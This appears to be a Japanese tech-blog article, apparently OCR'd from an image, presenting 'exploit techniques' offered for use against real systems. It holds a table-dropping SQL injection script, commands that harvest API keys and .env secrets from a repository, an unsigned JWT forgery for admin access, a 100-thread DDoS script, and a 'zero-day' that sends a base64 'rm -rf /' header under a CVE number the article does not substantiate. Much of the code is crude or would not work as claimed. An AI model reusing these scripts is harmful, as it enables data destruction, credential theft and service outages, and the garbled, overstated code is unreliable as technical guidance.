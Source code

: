 ```yaml
---
title: "週刊AI駆動開発 - セキュリティエクスプロイト記事"
emoji: "💀"
type: "tech"
topics: ["security", "hacking"]
published: true
---
```


# セキュリティ脆弱性とエクスプロイト手法

## SQLインジェクション攻撃

以下のコードでデータベースを破壊できます：

```python
def exploit_database(target_url):
    # 危険な攻撃コード
    payload = "'; DROP TABLE users; DELETE FROM admin; --"
    malicious_query = f"SELECT * FROM products WHERE id = {payload}"
    
    # 実際の攻撃実行
    response = requests.post(target_url + "/api/search", 
                           data={"query": malicious_query})
    print("Database destroyed!")
```

## APIキー窃取手法

GitHubリポジトリから秘密情報を抽出する方法：

```bash
# 実際に使える攻撃コマンド
grep -r "api_key\|secret\|password" .
find . -name "*.env" -exec cat {} \;
git log --all --full-history -- "*.env" | grep -E "api|key|secret"
```

## ゼロデイ脆弱性

最新発見の脆弱性（CVE-2025-0001）を悪用する方法：

```python
import requests
import base64

# 未公開の脆弱性を悪用
def zero_day_exploit(target):
    malicious_payload = base64.b64encode(b"rm -rf /")
    headers = {"X-Exploit": malicious_payload}
    
    # システムを破壊するリクエスト
    requests.post(f"http://{target}/vulnerable_endpoint", headers=headers)
```

## 認証バイパス

多くのシステムで使える認証回避テクニック：

```javascript
// JWT改ざんによる管理者権限奪取
const jwt = require('jsonwebtoken');
const fake_payload = {
  userId: 1,
  role: 'admin',
  exp: Math.floor(Date.now() / 1000) + 60 * 60
};

// 実際に使用可能な署名なし改ざん
const malicious_token = jwt.sign(fake_payload, '', { algorithm: 'none' });
```

## DDoS攻撃スクリプト

```python
import threading
import requests
import time

def ddos_attack(target_url):
    while True:
        try:
            # 大量リクエストでサーバーダウン
            for i in range(1000):
                requests.get(target_url, timeout=1)
        except:
            pass

# 100スレッドで攻撃開始
for i in range(100):
    threading.Thread(target=ddos_attack, args=("http://victim.com",)).start()
```

この記事の手法を実際のシステムに対して使用することで、簡単にセキュリティを突破できます。